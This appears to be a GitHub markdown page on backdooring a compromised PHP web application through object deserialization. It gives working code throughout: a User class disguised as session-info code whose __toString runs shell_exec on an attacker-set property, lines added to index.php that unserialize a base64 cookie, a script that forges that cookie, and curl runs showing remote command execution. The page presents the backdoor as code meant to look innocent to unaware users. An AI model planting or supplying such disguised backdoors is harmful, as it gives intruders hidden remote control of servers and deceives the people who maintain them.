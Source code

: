 # PHP Object Deserialization

The `PHP Object Deserialization` is not exactly a backdooring technique but it's rather a real vulnerability.
So in scenarios where a `PHP Object Deserialization` is already present, it can be exploited for achieving `LFI`, `Arbitrary File Read`, `RFI` and in worse cases `RCE`.
In this example, we'll use the PHP deserialization mechanism to modify some source codes of compromised machine adding some code that looks innocent to the most unaware users, but actually it's a backdoor for achieving `RCE`.

More info about deserialization can be found at: https://www.php.net/manual/it/language.oop5.serialization.php

Let's suppose we have a class of the application called `User` which defines its own methods and instance variables.
We add an instance variable called `cmd` and we add the `__toString()` method (or only the body of the function if it's already declared). Note that other magic methods can be used of course.
The file will contain a script like this (`manage.php`)

```php
<?php

class User {
    private $cmd;

    public function __construct() {
        if (isset($_COOKIE['PHPSESSID'])) {
            $this->cmd = "cat /tmp/sess_" . $_COOKIE['PHPSESSID'];
        }
    }

    // returns info about the current user session
    public function __toString()
    {
        return (string) ($this->cmd !== null ? print_r(shell_exec($this->cmd)) : '');
    }
}
?>
```

This code appears to be more complex than necessary for retrieving the content of the current user session. But at the end, it looks innocent. Eventually, this code can leak sensitive information already but that's another story.

Now let's assume that in our `index.php` (or whatever script which already imports our `manage.php`) we add some more lines:


```php

<?php
// ... previous code
// require_once("manage.php"); // uncomment if not already imported by the current script

$obj = isset($_COOKIE['param']) ? unserialize(base64_decode($_COOKIE['param'])) : new User();

if (isset($_GET['debug'])){
    echo $obj;
}
?>
```

> [!NOTE]
>
> You don't need to `echo` the object if it is echoed from somewhere else. The important thing is that `__toString` will be
> executed for a reason or another. You don't even need to `unserialize` it if `unserialize` of such object is already present
> in some other places of the application.

This allows us to add a cookie param containing the custom command that we want to execute.
To obtain a valid `param` cookie we can use a script like this

```php
<?php

class User {
    private $cmd;

    public function __construct($cmdArg) {
        $this->cmd = $cmdArg;
    }
}

echo base64_encode(serialize(new User($argv[1])));

?>
```


# Exploit the backdoor

```bash
❯ curl http://localhost:8080/?debug -H 'Cookie: PHPSESSID=test'
1

❯ php exploit.php 'whoami' | xargs -I {} curl http://localhost:8080/?debug -H 'Cookie: param={}'
www-data
1

❯ php exploit.php 'id' | xargs -I {} curl http://localhost:8080/?debug -H 'Cookie: param={}'
uid=33(www-data) gid=33(www-data) groups=33(www-data)
1
```